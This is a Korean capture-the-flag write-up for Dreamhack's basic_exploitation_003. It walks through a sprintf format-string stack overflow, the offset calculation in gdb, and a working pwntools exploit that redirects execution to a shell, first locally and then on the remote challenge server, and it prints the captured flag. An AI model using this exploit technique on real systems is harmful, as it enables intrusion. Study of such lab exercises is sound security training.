 # Stage10_basic_exploitation_003[문제]

## 1. 파일 확인

- unzip 명령어로 파일 압축 해제

```bash
$ unzip 4087ea17-938c-464f-a767-feac4da62951.zip 
Archive:  4087ea17-938c-464f-a767-feac4da62951.zip
  inflating: basic_exploitation_003.c  
  inflating: basic_exploitation_003
```

- ls -al 명령어로 파일 목록 확인

```bash
$ ls -al
total 24
drwxrwxr-x  2 magan20 magan20 4096 11월 26 04:30 .
drwxrwxr-x 19 magan20 magan20 4096 11월 26 03:42 ..
-rw-rw-r--  1 magan20 magan20 3607 11월 26 03:43 4087ea17-938c-464f-a767-feac4da62951.zip
-rwxr-xr-x  1 magan20 magan20 7836  4월  1  2020 basic_exploitation_003
-rw-r--r--  1 magan20 magan20  575  4월  1  2020 basic_exploitation_003.c
magan20@magan20:~/dreamha
```

- file 명령어로 basic_exploitation_003 파일 확인

```bash
$ file basic_exploitation_003
basic_exploitation_003: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e2d5f4ca6087b4fcbb06378064e4e167643a1b5d, not stripped
```

basic_exploitation_002 파일은 32bit ELF 파일이다.

- cat 명령어로 basic_exploitation_003 파일 내용 확인

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf); // format string bug 및 overflow 발생
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```

## 2. 시나리오 작성

- sprintf(stack_buf, heap_buf); 를 보면 stack_buf 에서 format string 버그가 발생하지만 heap 에서 stack 으로 overflow 취약점도 발생한다.
- format string 버그로 overflow 를 일으킨 후에 return address 에 get_shell 함수의 주소를 덮어씌우면 된다.

## 3. 필요 정보 확인

1. stack_buf 와 return address 사이의 바이트 수

```bash
gef➤  disas main
Dump of assembler code for function main:
   0x0804867c <+0>:	push   ebp
   0x0804867d <+1>:	mov    ebp,esp
   0x0804867f <+3>:	push   edi
   0x08048680 <+4>:	sub    esp,0x94
   0x08048686 <+10>:	push   0x80
   0x0804868b <+15>:	call   0x8048490 <malloc@plt>
   0x08048690 <+20>:	add    esp,0x4
   0x08048693 <+23>:	mov    DWORD PTR [ebp-0x8],eax
   0x08048696 <+26>:	lea    edx,[ebp-0x98]
   0x0804869c <+32>:	mov    eax,0x0
   0x080486a1 <+37>:	mov    ecx,0x24
   0x080486a6 <+42>:	mov    edi,edx
   0x080486a8 <+44>:	rep stos DWORD PTR es:[edi],eax
   0x080486aa <+46>:	call   0x8048622 <initialize>
   0x080486af <+51>:	push   0x80
   0x080486b4 <+56>:	push   DWORD PTR [ebp-0x8]
   0x080486b7 <+59>:	push   0x0
=> 0x080486b9 <+61>:	call   0x8048450 <read@plt>
   0x080486be <+66>:	add    esp,0xc
   0x080486c1 <+69>:	push   DWORD PTR [ebp-0x8]
   0x080486c4 <+72>:	lea    eax,[ebp-0x98]
   0x080486ca <+78>:	push   eax
   0x080486cb <+79>:	call   0x80484f0 <sprintf@plt>
   0x080486d0 <+84>:	add    esp,0x8
   0x080486d3 <+87>:	lea    eax,[ebp-0x98]
   0x080486d9 <+93>:	push   eax
   0x080486da <+94>:	push   0x8048791
   0x080486df <+99>:	call   0x8048460 <printf@plt>
   0x080486e4 <+104>:	add    esp,0x8
   0x080486e7 <+107>:	mov    eax,0x0
   0x080486ec <+112>:	mov    edi,DWORD PTR [ebp-0x4]
   0x080486ef <+115>:	leave  
   0x080486f0 <+116>:	ret    
End of assembler dump.
```

main+72 에서 main+79 를 보면 sprintf 함수의 첫번째 인자로 ebp-0x98 의 주소를 스택에 넣고 있다. 

sprintf 함수의 첫번째 인자는  stack_buf 이므로 stack_buf 의 위치를 ebp-0x98 이다.

```bash
   0x080486c4 <+72>:	lea    eax,[ebp-0x98]
   0x080486ca <+78>:	push   eax
   0x080486cb <+79>:	call   0x80484f0 <sprintf@plt>
```

- return address 의 위치 : ebp + 0x4
- stack_buf 의 위치 : ebp - 0x98
- stack_buf 와 return address 사이의 바이트 수 : ebp + 0x4 - (ebp - 0x98) = 0x9c = 156

1. get_shell() 주소 확인

```bash
gef➤  p get_shell
$1 = {<text variable, no debug info>} 0x8048669 <get_shell>
```

- get_shell 주소 : 0x8048669

## 4. 페이로드 작성

1. 페이로드 작성

```python
from pwn import *

p = process("./basic_exploitation_003")
e = ELF("./basic_exploitation_003")

get_shell = 0x8048669

payload = b""
payload += b"%156c"
payload += p32(get_shell)

p.sendline(payload)
p.interactive()
```

1. 로컬 공격

```bash
$ python3 payload.py 
[+] Starting local process './basic_exploitation_003': pid 21326
[*] '/home/magan20/dreamhack/system/basic_exploitation_003/basic_exploitation_003'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
ECHO :                                                                                                                                                             i\x86\x04

$ id
uid=1000(magan20) gid=1000(magan20) groups=1000(magan20),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare)
```

## 5. 공격

1. 접속 정보 확인

```bash
Host: host3.dreamhack.games
Port: 19711/tcp
```

1. 페이로드 수정

```python
from pwn import *

#p = process("./basic_exploitation_003")
p = remote("host3.dreamhack.games", 19711)
e = ELF("./basic_exploitation_003")

get_shell = 0x8048669

payload = b""
payload += b"%156c"
payload += p32(get_shell)

p.sendline(payload)
p.interactive()
```

1. 공격
```bash
$ python3 payload.py
[+] Opening connection to host3.dreamhack.games on port 19711: Done
[*] '/home/magan20/dreamhack/system/basic_exploitation_003/basic_exploitation_003'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
ECHO :                                                                                                                                                             i\x86\x04

$ id
uid=1000(basic_exploitation_003) gid=1000(basic_exploitation_003) groups=1000(basic_exploitation_003)
$ cat flag
DH{4e6e355c62249b2da3b566f0d575007e}
$
```
